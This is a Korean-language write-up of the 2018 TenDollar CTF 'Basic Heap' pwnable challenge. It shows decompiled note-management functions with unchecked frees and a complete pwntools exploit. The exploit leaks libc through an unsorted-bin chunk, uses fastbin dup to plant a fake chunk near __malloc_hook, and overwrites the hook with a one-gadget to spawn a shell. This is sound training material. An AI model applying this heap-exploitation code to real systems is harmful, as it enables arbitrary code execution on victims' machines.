 ```yaml
---
title: "2018 TenDollar CTF Basic Heap"
date: 2020-2-14
ctf: TenDollar CTF
layout: post
published : false
---
```


보호기법은 다 걸려있다.

```
[*] '/vagrant/ctfs/2018_TDCTF/pwnable/basic_heap/basicheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

malloc해주는 곳인데 원하는 사이즈만큼 자유자재로 할당할 수 있고 개수는 상관없다.

```c
unsigned __int64 sub_980()
{
  int v0; // ebx
  int v2; // [rsp+4h] [rbp-1Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  puts("Input Length");
  _isoc99_scanf("%d", &v2);
  v0 = count;
  note[v0] = malloc(v2);
  puts("Input Memo!");
  read(0, note[count], v2);
  ++count;
  puts("Create Note Done.\n");
  return __readfsqword(0x28u) ^ v3;
}
```

free해주는 메뉴인데 원하는 인덱스의 주소를 free해줄 수 있다. 별도의 검사도 없다.

```c
unsigned __int64 sub_AD2()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  free(note[v1]);
  puts("Delete Note Done.\n");
  return __readfsqword(0x28u) ^ v2;
}
```

원하는 인덱스의 청크의 내용을 볼 수 있다.

```c
unsigned __int64 sub_A59()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  puts(note[v1]);
  return __readfsqword(0x28u) ^ v2;
}
```

fastbin dup에 이용하기 위해 fastbin 2개 생성하고 small bin을 생성한 후 fastbin을 하나 더 생성해서 top chunk와 병합되지 않게한 후 small bin을 free후 leak한 후 libc주소 구해주고 __malloc_hook-35 위치에 fake chunk을 생성해서 fastbin dup으로 oneshot주소로 덮어준 후 malloc 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./basicheap')
p = process('./basicheap')
libc = e.libc
s = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create(length,content):
	sla('4. Quit\n','1')
	sla('Input Length\n',str(length))
	sa('Input Memo!\n',content)

def show(index):
	sla('4. Quit\n','2')
	sla('Choose Note\n',str(index))

def delete(index):
	sla('4. Quit\n','3')
	sla('Choose Note\n',str(index))

def quit():
	sla('4. Quit\n','4')

create(0x60,'AAAA')
create(0x60,'BBBB')
create(180,'CCCC') # unsorted bin attack
create(0x60,'DDDD')

delete(2)
show(2)

main_arena = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('main_arena : {}'.format(hex(main_arena)))
libc_base = main_arena - 0x3c4b78
log.info('libc_base : {}'.format(hex(libc_base)))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc_hook)))
oneshot = libc_base + 0xf1147
log.info('oneshot : {}'.format(hex(oneshot)))

create(180,'EEEE')

# fastbin dup
delete(0)
delete(1)
delete(0)

create(0x60,p64(malloc_hook-35)) # fake chunk
create(0x60,'FFFF')
create(0x60,'FFFF')
create(0x60,'A'*19+p64(oneshot))

sla('4. Quit\n','1')
sla('Input Length\n',str(50))

p.interactive()
```

